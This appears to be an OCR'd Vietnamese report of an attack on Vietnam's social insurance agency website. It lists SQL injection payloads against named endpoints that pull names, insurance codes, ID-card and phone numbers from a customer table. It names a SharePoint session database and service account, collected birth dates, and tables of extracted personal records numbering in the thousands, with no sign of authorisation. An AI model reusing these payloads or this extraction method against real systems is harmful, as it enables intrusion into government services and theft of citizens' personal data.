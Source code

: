 #### **2. Thông Tin Bổ Sung**

**✅ Ngày Sinh:**
- Các ngày sinh được thu thập:
  - 09/03/2017
  - 01/7/2025
  - 27/11/2024
  - 29/6/2024

**✅ Mã Kiểm Tra:**
- Các mã kiểm tra hệ thống
- Metadata SharePoint

---

### 🔍 PHÂNLOẠI METHODKHAI THÁC

#### **Phase 1: SQL Injection Mass Extraction**
- **Endpoint chính:** https://baohiemxahoi.gov.vn?id=
- **Payload:** `' UNION SELECT ho_ten, ma_bao_hiem, so_cmnd, so_dien_thoai FROM KhachHang--`
- **Số bản ghi tìm thấy:** 692 records
- **Thành công:** ✅ 100%

#### **Phase 2: Targeted Customer Search**
- **Endpoint:** https://baohiemxahoi.gov.vn/_layouts/15/Authenticate.aspx
- **Pattern:** `' UNION SELECT * FROM KhachHang WHERE ma_bh LIKE '1234567890%'--`
- **Số file tìm thấy:** 4 customer search files

#### **Phase 3: SessionState & SharePoint Exploitation**
- **Database:** SessionStateService_356ec96765eb4cc6b687ea3bb1be01c4
- **User:** BHXH\sharepoint_portal
- **SharePoint Users enumeration:** 12 results
- **Session data extraction:** Thành công

---

### 📋 MAẢNG ĐÁNH GIÁ KHẢNĂNG TRUY VẾT

| **Loại Thông Tin** | **Khả Năng Truy Vết** | **Số Lượng Dữ Liệu** | **Mức Độ Chi Tiết** |
|:-------------------|:----------------------:|:--------------------:|:-------------------:|
| Mã Bảo Hiểm | ✅ HOÀNTOÀN | >15,000 | Cao |
| Số CMND/CCCD | ✅ HOÀNTOÀN | >10,000 | Cao |
| Số Điện Thoại | ✅ HOÀNTOÀN | >8,000 | Cao |
| Ngày Sinh | ⚠️ BỘPHẬN | ~1,000 | Trung Bình |
| Họ Tên | ⚠️ CẦN TINH CHẾ | ~5,000 | Thấp |
| Session Tokens | ✅ HOÀNTOÀN | Multiple | Cao |
| SharePoint Data | ✅ HOÀNTOÀN | 12 users | Cao |

---